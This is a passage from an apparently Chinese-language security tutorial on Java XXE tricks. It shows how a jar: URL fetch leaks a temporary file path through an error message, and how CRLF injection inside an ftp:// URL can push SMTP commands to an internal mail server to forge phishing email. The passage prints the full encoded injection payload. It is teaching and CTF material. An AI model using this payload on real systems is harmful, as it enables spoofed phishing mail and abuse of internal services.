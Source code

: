 既然是文件上传，那我们又要回到 jar 协议解析文件的过程中了

> jar 协议处理文件的过程：
    (1) 下载 jar/zip 文件到临时文件中
    (2) 提取出我们指定的文件
    (3) 删除临时文件

那我们怎么找到这个临时的文件夹呢？不用想，肯定是通过报错的形式展现，如果我们请求的

```
jar:http://localhost:9999/jar.zip!/1.php
```
1.php 在这个 jar.zip 中没有的话，java 解析器就会报错，说在这个临时文件中找不到这个文件

如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-9b4c63a80c7d9841.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

既然找到了临时文件的路径，我们就要考虑怎么使用这个文件了（或者说怎么让这个文件能更长时间的停留在我们的系统之中，我想到的方式就是sleep()）但是还有一个问题，因为我们要利用的时候肯定是在文件没有完全传输成果的时候，因此为了文件的完整性，我考虑在传输前就使用 hex 编辑器在文件末尾添加垃圾字符，这样就能完美的解决这个问题
下面是我的实验录屏：

![](https://upload-images.jianshu.io/upload_images/15378294-4c8a93e37b6fab2f.gif?imageMogr2/auto-orient/strip)

实验就到这一步了，怎么利用就看各位大佬的了（坏笑）

我后来在LCTF 2018 出了这样一个 CTF 题目，详细的 wp 可以看我的[这篇文章](http://www.k0rz3n.com/2018/11/19/LCTF%202018%20T4lk%201s%20ch34p,sh0w%20m3%20the%20sh31l%20%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90/)

# **实验七：钓鱼：**

如果内网有一台易受攻击的 SMTP 服务器，我们就能利用 ftp:// 协议结合 CRLF 注入向其发送任意命令，也就是可以指定其发送任意邮件给任意人，这样就伪造了信息源，造成钓鱼（一下实例来自fb 的一篇文章 ）

Java支持在sun.net.ftp.impl.FtpClient中的ftp URI。因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令。

但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：
示例代码：

```
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```
